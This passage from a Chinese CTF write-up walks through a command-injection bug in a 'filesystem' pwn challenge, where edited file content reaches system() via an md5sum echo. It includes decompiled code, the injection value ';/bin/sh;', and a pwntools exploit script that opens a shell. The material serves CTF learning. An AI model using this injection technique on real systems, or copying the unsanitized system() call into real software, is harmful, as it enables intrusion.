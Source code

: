 		v3 = sub_4009D1();

		if ( unk_6029E0 > v3 )

		{

			snprintf(&s, 0x80uLL, "echo "%s"| md5sum", (char *)&unk_6020E0 + 144 * v3 + 48);

			system(&s);

		}

		else

		{

			puts("No Such Index");

		}

		return __readfsqword(0x28u) ^ v5;

	}

Snprint是把第四个参数存到第一个参数所对应的位置里，通过对整个程序的阅读可以知道(char
*)&unk_6020E0 + 144 * v3 +
48其实是在Edit功能里面输入的内容，所以我们只需要在Edit输入时输入/bin/sh就可以拿到shell了。比赛的时候就考虑到了这里，但后面写exp的时候输入的/bin/sh不知道为什么怎么都不对，之后看了别人的wp才发现要用分隔符‘；’隔开，输入;/bin/sh;

Exp

	from pwn import *

	r=process('./filesystem')

	r.recvuntil("> ")

	r.sendline("Create")

	r.recvuntil("Input Filename: ")

	r.sendline("gayfei")

	r.recvuntil("> ")

	r.sendline("Edit")

	r.recvuntil("Input the Index:")

	r.sendline("0")

	r.recvuntil("Input File Content: ")

	r.sendline('";/bin/sh;"')

	r.recvuntil("> ")

	r.sendline("Checksec")

	r.recvuntil("Input the Index:")

	r.sendline("0")

	r.interactive()

这题在看了安恒官方给出的wp后发现还有个漏洞，是堆漏洞的利用off-by-one，这里暂时还没有掌握，到时候在做补充。

## **Hackmoon**

	会单独写一篇关于uaf漏洞的介绍
	链接：https://tearorca.github.io/uaf%E6%BC%8F%E6%B4%9E/